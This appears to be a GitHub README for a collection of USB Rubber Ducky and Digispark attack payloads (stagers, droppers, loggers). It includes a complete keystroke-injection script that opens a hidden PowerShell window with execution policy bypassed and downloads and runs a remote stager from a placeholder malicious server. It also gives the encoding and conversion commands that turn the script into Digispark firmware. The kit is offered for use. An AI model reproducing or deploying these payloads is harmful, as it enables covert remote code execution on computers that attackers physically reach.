 # Miscellaneous payload for rubberducky

### Here, you can found :

- sample of script stager
- sample of payload dropper (rubber ducky)
- Other things (logger, etc ...)

Of course, for linux and windows !


### you must have this 2 github script

https://github.com/hak5darren/USB-Rubber-Ducky
https://github.com/mame82/duck2spark


## How work ? (tutorial in https://k-lfa.info/digispark-hacking/)

1. Make your rubberduck payload (in dropper context)

```
GUI r
DELAY 300
STRING powershell.exe -exec bypass -w hidden -nop -c "iex(New-Object System.Net.WebClient).DownloadString('https://maliciousserver/stager.ps1')"
DELAY 800
ENTER
DELAY 700
GUI r
DELAY 200
STRING notepad
DELAY 300
ENTER
DELAY 100
STRING H4cked !
DELAY 200
GUI l
```

2. Encode your payload (with duckencoder) (Don't forget the keyboard context ! qwerty or azerty)

```
java -jar duckencoder.jar -i duckpayload.txt -o ducky.bin -l fr
```

3. Translate your payload in C++ code

```
python duck2spark/duck2spark.py -i ducky.bin -l 1 -o Payload.bin
```

4. Copy / Paste your C++ code in Arduino IDE and Upload this in digispark !

Enjoy
